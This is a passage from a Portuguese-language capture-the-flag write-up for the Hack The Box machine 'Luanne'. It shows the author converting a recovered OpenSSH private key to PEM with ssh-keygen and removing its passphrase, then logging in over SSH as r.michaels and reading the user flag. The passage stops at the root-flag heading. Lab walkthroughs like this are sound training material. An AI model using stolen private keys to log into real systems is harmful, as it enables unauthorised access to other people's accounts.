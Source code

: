 Ao validar a chave RSA existente (`id_rsa`) notei que não se trata de uma chave RSA, mas uma chave `OPENSSH`. Para convertê-la precisei realizar os seguintes procedimentos:

- Remover a quebra de linha ao final do arquivo, após a instrução `-----END OPENSSH PRIVATE KEY-----`.
- Conversão de OpenSSH para RSA usando o comando abaixo, assim como a redefinição das permissões para que pudéssemos utilizá-la com o `ssh`, informando a senha da chave a ser exportada em branco.

```bash
chmod 600 id_rsa
ssh-keygen -p -m PEM -f ./id_rsa
Key has comment 'r.michaels@luanne.htb'
Enter new passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved with the new passphrase.
```

Com esta chave, o acesso com a conta `r.michaels`foi possível, onde obtivemos o flag de usuário.

```bash
ssh -i id_rsa r.michaels@10.10.10.218
The authenticity of host '10.10.10.218 (10.10.10.218)' can't be established.
ECDSA key fingerprint is SHA256:KB1gw0t+80YeM3PEDp7AjlTqJUN+gdyWKXoCrXn7AZo.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.218' (ECDSA) to the list of known hosts.
Last login: Sat Feb 20 07:14:11 2021 from 10.10.10.10
NetBSD 9.0 (GENERIC) #0: Fri Feb 14 00:06:28 UTC 2020
  
Welcome to NetBSD!
  
luanne$ id && pwd && ls -la
uid=1000(r.michaels) gid=100(users) groups=100(users)
/home/r.michaels
total 52
dr-xr-x--- 7 r.michaels users 512 Sep 16 18:20 .
drwxr-xr-x 3 root wheel 512 Sep 14 06:46 ..
-rw-r--r-- 1 r.michaels users 1772 Feb 14 2020 .cshrc
drwx------ 2 r.michaels users 512 Sep 14 17:16 .gnupg
-rw-r--r-- 1 r.michaels users 431 Feb 14 2020 .login
-rw-r--r-- 1 r.michaels users 265 Feb 14 2020 .logout
-rw-r--r-- 1 r.michaels users 1498 Feb 14 2020 .profile
-rw-r--r-- 1 r.michaels users 166 Feb 14 2020 .shrc
dr-x------ 2 r.michaels users 512 Sep 16 16:51 .ssh
dr-xr-xr-x 2 r.michaels users 512 Nov 24 09:26 backups
dr-xr-x--- 4 r.michaels users 512 Sep 16 15:02 devel
dr-x------ 2 r.michaels users 512 Sep 16 16:52 public_html
-r-------- 1 r.michaels users 33 Sep 16 17:16 user.txt
luanne$ cat user.txt
<redacted>
```

## Root flag
